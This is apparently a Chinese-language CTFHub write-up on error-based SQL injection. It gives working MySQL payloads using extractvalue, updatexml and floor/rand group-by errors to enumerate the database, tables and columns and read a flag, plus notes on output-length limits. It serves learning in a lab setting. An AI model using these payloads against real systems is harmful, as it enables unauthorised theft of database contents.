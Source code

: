 ```yaml
---
title: ctfhub报错型注入
categories:
      - ctfhub
      - sql注入
---
```

报错型SQL注入主要有三种方法:

1. extractvalue函数形成的xpath报错
2. updatexml函数形成的xpath报错
3. floor实现的group by主键重复

1、利用extractvalue来xpath报错。

extractvalue函数从目标xml文件中返回所包含查询值的字符串，语法为

```sql
extractvalue("XML_document","Xpath_string")
```

```sql
and (select extractvalue(1, concat(0x7e, (select database()))))

and (select extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema= 'sqli'))))

and (select extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name= 'flag'))))

and (select extractvalue(1, concat(0x7e, (select flag from flag))))

```

2、利用updatexml来xpath报错。

updatexml是修改xml文件的函数，标准语法为：

```sql
updatexml('XML_document','Xpath_string','New_value')
```

```sql
and (select updatexml(1, (concat (0x7e, (select database()))),1))

and (select updatexml(1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='sqli'))),1))

and (select updatexml(1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where table_name='flag'))),1))

and (select updatexml(1, concat(0x7e, (select flag from flag)), 1))

```

3、利用floor来group by主键重复报错。

```sql
union select count(*), concat((select database()), floor(rand(0)*2)) x from news group by x

union select count(*), concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1), floor(rand(0)*2)) x from news group by x

union select count(*), concat((select column_name from information_schema.columns where table_name='flag' limit 0,1), floor(rand(0)*2)) x from news group by x

union select count(*), concat((select flag from flag limit 0,1), floor(rand(0)*2)) x from news group by x


```


extractvalue和updatexml这两个函数得到的flag是不完整的。这两个函数的返回值最多只有32个字符。这里和最终的flag少了一个右大括号。

以后遇到这种问题再用一下right()获取右边的值即可。

用group by的时候问题很大，首先它貌似只试用于mysql 5.x的版本
